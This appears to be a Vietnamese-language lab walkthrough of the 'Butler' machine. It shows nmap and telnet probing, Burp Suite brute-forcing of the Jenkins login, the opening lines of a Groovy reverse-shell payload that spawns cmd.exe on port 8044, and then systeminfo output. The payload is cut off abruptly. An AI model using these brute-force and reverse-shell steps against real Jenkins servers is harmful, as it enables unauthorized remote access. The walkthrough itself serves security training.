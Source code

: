 | smb2-security-mode:

|   2.02:

|_    Message signing enabled but not required

| smb2-time:

|   date: 2022-08-04T04:49:38

|_  start_date: N/A

Service detection performed. Please report any incorrect results at  .

Nmap done: 1 IP address (1 host up) scanned in 288.07 seconds

Thử telnet nhưng không có gì

┌──(kali㉿kali)-[~/Desktop]

└─$ telnet 192.168.44.145  7680

Trying 192.168.44.145...

Connected to 192.168.44.145.

Escape character is '^]'.

quit

exit

Connection closed by foreign host.

Vào trang chủ jenkins, đăng nhập bằng tài khoản mặc định nhưng không thành công

Bruteforce bằng burpsuite

![](../media/Butler%20TCM%20-%20writeup_1.png)

Đặt payload như sau

![](../media/Butler%20TCM%20-%20writeup_2.png)

![](../media/Butler%20TCM%20-%20writeup_3.png)

Kết quả như sau

![](../media/Butler%20TCM%20-%20writeup_4.png)

Đăng nhập vào jenkins và lấy reverse shell bằng payload sau:

String host="localhost";

int port=8044;

String cmd="cmd.exe";


[01]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz
[02]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz
[03]: AMD64 Family 25 Model 80 Stepping 0 AuthenticAMD ~3194 Mhz
[01]: KB4601554
[02]: KB5013887
[03]: KB5000736
[04]: KB5015807
[05]: KB5014671
[06]: KB5001405
[01]: Intel(R) 82574L Gigabit Network Connection
[01]: 192.168.44.145
[02]: fe80::d84f:eb80:5807:1704